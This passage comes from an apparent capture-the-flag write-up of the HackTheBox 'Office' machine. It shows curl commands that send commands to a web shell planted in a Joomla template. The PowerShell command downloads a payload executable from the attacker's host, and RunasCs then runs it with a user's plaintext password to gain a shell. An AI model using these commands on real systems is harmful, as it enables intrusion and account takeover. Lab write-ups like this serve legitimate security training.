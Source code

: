 Then in another tab:

```bash
curl http://office.htb/templates/cassiopeia/error.php?cmd=powershell+iwr+10.10.14.61:8000/tstark_shell.exe+-O+tstark_shell.exe
curl "http://office.htb/templates/cassiopeia/error.php?cmd=C:\\xampp\\htdocs\\joomla\\templates\\cassiopeia\\RunasCs.exe+tstark+playboy69+\"C:\\xampp\\htdocs\\joomla\\templates\\cassiopeia\\tstark_shell.exe\"+-d+office.htb"
```

![msf_result](images/Office20.png)

### Phase 10: Port Forwarding with Chisel (Lateral Movement Prep)

Now we're in as Tony let's grab the user flag and then check for any useful information:

![netstat_result](images/Office21.png)
